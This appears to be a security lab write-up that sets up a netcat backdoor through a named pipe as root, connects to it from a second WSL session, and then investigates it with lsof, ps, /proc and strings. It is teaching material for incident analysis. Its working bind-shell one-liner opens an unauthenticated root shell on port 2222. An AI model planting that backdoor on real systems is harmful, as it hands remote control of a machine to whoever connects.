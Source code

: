 ```yaml
---
layout: default
---
```

[Back](./)

## FIFO Backdoor (First In First Out)
Running 3 WSL linux sessions
The first will be where we run the backdoor.
The second will be where we connect to it.
The third is where we will be running our analysis.

**Machine 1**

Create the backdoor
1. Elevate to root `sudo su`
2. Create a fifi backpipe `mknod backpipe p`
3. Start the backdoor `/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
> In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session. It then takes the output of the bash session and puts it back into the netcat listener.

**Machine 2**

Connect to this backdoor
1. Get IP address info `ip add`
2. Run netcat on the IP + Port `nc 172.20.146.40 2222`

**Machine 1**

Analyze the backdoor
1. Open another tab on the original machine to analyse the backdoor connection using`lsof -i -P`

|Flag       |Define       |
| ----  | ----  |
|-i       |Looking at the open Internet connections.|
|-P       |Telling lsof to not guess what the service is on the ports. Just give us the port number.|
|-p       |List open files associated with the listed process ID.|

Output:
```
COMMAND    PID            USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nc        1757            root    3u  IPv4  48020      0t0  TCP *:2222 (LISTEN)
nc        1757            root    4u  IPv4  48021      0t0  TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```

2. List open files associated with the listed process ID. `sudo lsof -p 1757`

Output::
```
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF  NODE NAME
nc      1757 root  cwd    DIR   8,32     4096 40961 /root
nc      1757 root  rtd    DIR   8,32     4096     2 /
nc      1757 root  txt    REG   8,32    39560  1590 /usr/bin/nc.openbsd
nc      1757 root  mem    REG   8,32    47472  6689 /usr/lib/x86_64-linux-gnu/libmd.so.0.0.5
nc      1757 root  mem    REG   8,32  2216304  6521 /usr/lib/x86_64-linux-gnu/libc.so.6
nc      1757 root  mem    REG   8,32    68552  6801 /usr/lib/x86_64-linux-gnu/libresolv.so.2
nc      1757 root  mem    REG   8,32    89096  6517 /usr/lib/x86_64-linux-gnu/libbsd.so.0.11.5
nc      1757 root  mem    REG   8,32   240936  6325 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
nc      1757 root    0r  FIFO   0,12      0t0 51879 pipe
nc      1757 root    1w  FIFO   8,32      0t0  6659 /root/backpipe
nc      1757 root    2u   CHR  136,2      0t0     5 /dev/pts/2
nc      1757 root    3u  IPv4  48020      0t0   TCP *:2222 (LISTEN)
nc      1757 root    4u  IPv4  48021      0t0   TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```

3. List all of the proccesses on the system for all users. `ps aux`

Output:
```
bandit      1657  0.0  0.0   6080  5064 pts/3    Ss   22:01   0:00 -bash
root        1755  0.0  0.0   4780  3196 pts/2    S+   23:54   0:00 bash /home/bandit/fifo-backdoor.sh
root        1756  0.0  0.0   4912  3624 pts/2    S+   23:54   0:00 /bin/bash
**root        1757  0.0  0.0   3532  1220 pts/2    S+   23:54   0:00 nc -l 2222**
bandit      1769  0.0  0.0   7480  3244 pts/3    R+   23:55   0:00 ps aux
```

>-   The output includes information such as the process ID (PID), the user who started the process (USER), the CPU and memory usage, and the command that initiated the process (COMMAND).
>-   The command displays both active processes and those in a "zombie" or "defunct" state.
>-   "ps aux" gives a comprehensive view of the system's current process landscape and can be useful for monitoring system activity, identifying resource-intensive processes, and troubleshooting issues.

4. Change into the proc directory for that pid. `cd /proc/1757` `ls`

Output:
```
ls: cannot read symbolic link 'cwd': Permission denied
ls: cannot read symbolic link 'root': Permission denied
ls: cannot read symbolic link 'exe': Permission denied
arch_status  comm             fd         maps        ns             projid_map  smaps_rollup  task
attr         coredump_filter  fdinfo     mem         oom_adj        root        stack         timens_offsets
auxv         cpuset           gid_map    mountinfo   oom_score      sched       stat          timers
cgroup       cwd              io         mounts      oom_score_adj  schedstat   statm         timerslack_ns
clear_refs   environ          limits     mountstats  pagemap        setgroups   status        uid_map
cmdline      exe              map_files  net         personality    smaps       syscall       wchan
```

> **/proc**  contains a virtual file system that provides information about running processes it does **not exist on the drive.** It allows us to see data associated with the various processes **directly**. This can be very usesfull as it allows us to **dig into the memory of a process that is currently running on a suspect system.**

5. Identigy exactly what the program doing `strings ./exe`

Output:
```
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
          [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
          [destination] [port]
        Command Summary:
                -4              Use IPv4
                -6              Use IPv6
                -b              Allow broadcast
                -C              Send CRLF as line-ending
```

> Now we can see the actual usage information for netcat
> We can run strings on the exe in this directory. This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

[Back](./)

